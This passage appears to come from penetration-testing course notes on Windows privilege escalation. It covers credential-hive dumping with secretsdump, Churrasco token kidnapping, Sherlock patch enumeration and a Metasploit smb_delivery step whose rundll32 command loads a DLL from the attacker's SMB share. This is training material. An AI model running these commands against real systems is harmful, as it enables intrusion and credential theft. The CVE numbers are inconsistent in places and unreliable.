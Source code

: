 In Windows, we can right-click on the file and choose **Mount**, or use the **Disk Management** utility to mount a **.vhd** or **.vhdx** file. If we can locate a backup of a live machine, we can access the `C:\Windows\System32\Config`{: .filepath}:
```console
zero@pio$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

---

# End of Life Systems

Over time, Microsoft decides to no longer offer ongoing support for specific operating system versions. [This](https://michaelspice.net/windows/end-of-life-microsoft-windows-and-office/) page has a detail list of end-of-life (EOL) for Microsoft Windows. 

## Windows Server 

For Windows Server 2003 there is a wide range of techniques for privilege escalation. For example, the **Token Kidnapping** with [Churrasco](https://github.com/Re4son/Churrasco). As easy as upload the binary and use it as:
```console
C:\Windows\Temp> .\churrasco.exe "<COMMAND AS ADMINISTRATOR>"
```

Windows Server 2008/2008 R2 were made end-of-life on January 14, 2020. For an older OS like Windows Server 2008, we can use an enumeration script like [Sherlock](https://github.com/rasta-mouse/Sherlock) to look for missing patches. Let's first use WMI to check for missing KBs:
```console
C:\zeropio> wmic qfe
```

Let's run Sherlock to gather more information:
```console
PS C:\htb> Set-ExecutionPolicy bypass -Scope process

... Y

PS C:\zeropio> Import-Module .\Sherlock.ps1
PS C:\zeropio> Find-AllVulns
```

Search for the CVE we encounter. For example, we can use the `smb_delivery` Metasploit module:
```console
msf6 > use exploit/windows/smb/smb_delivery
msf6 exploit(windows/smb/smb_delivery) > show options
msf6 exploit(windows/smb/smb_delivery) > show targets
msf6 exploit(windows/smb/smb_delivery) > set target 0
```

Open a cmd console on the target host and paste in the `rundll32.exe` command:
```console
C:\zeropio> rundll32.exe \\<OUR IP>\lEUZam\test.dll,0
```

We get a call back quickly. We can use the [CVE-2010-3888 and CVE-2010-3388](https://www.exploit-db.com/exploits/19930):
```console
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338
msf6 exploit(windows/smb/smb_delivery) use 0
```
